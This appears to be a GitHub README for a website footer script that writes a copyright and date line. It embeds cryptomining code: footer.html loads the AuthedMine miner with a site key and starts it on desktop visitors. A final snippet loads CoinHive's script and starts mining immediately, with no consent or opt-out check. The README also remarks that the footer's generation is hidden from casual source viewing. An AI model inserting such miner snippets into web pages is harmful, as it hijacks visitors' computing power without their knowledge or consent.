 # footer-authedmine.js

### [Footer] with [AuthedMine]

The [CoinHive] version of this footer is available at [footer-coinhive.js]

## footer.html

```html
<footer class="container" id="footer">
    <script src="http://cdn.mf/date.js/footer-date.js"></script>
</footer>
<script type="text/javascript" src="https://code.jquery.com/jquery-1.12.0.min.js"></script>
<script src="https://authedmine.com/lib/authedmine.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT', {throttle: 0.3});
    // Only start on non-mobile devices and if not opted-out in the last 3600 seconds:
    if (!miner.isMobile() && !miner.didOptOut(3600)) {
        miner.start();
    }
</script>
```

## footer-date.js

```javascript
var d = new Date();
var y = 0;
var year = d.getFullYear().toString();
var m = ["January", "February", "March", "April", "May", "June", "July", "August", "September", "October", "November", "December"]
var month = m[d.getMonth()];
var footer = "";
var footer0 = "MaX Falstein gTLD &copy; MaX Falstein and Falstein Inc. &#8212; ";
var footer1 = " ";
var footer2 = " &#8212; Patents and Trademarks Pending";
footer = footer0.concat(month.concat(footer1.concat(year.concat(footer2))));
document.getElementById("footer").innerHTML = footer;
```

## Operations

The appending of `footer` to the inner HTML of the footer using `document.getElementById("footer").innerHTML` repleaces `<script src="http://cdn.mf/date.js/footer-date.js"></script>` with
`MaX Falstein gTLD &copy; MaX Falstein and Falstein Inc. &#8212; January 2018 &#8212; Patents and Trademarks Pending` giving the impression when inspecting the source the footer is not procedurally generated unless viewing the sources and network tabs in developer tools in most browsers.

The [AuthedHive] code is freely available and documentation can be found on the [CoinHive] website or specifically in the [AuthedHive documentation].

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.12.0.min.js"></script>
<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>var miner = new CoinHive.Anonymous('TaisfdcTxYepHiUV68XbnzjUp7FXaTyT');miner.start();</script>
```

[AuthedMine]: https://authedmine.com
[AuthedHive documentation]: https://coinhive.com/documentation/authedmine
[CoinHive]: https://coinhive.com
[Footer]: https://github.com/MaXFalstein/footer-date.js
[footer-coinhive.js]: https://github.com/MaXFalstein/footer-coinhive.js
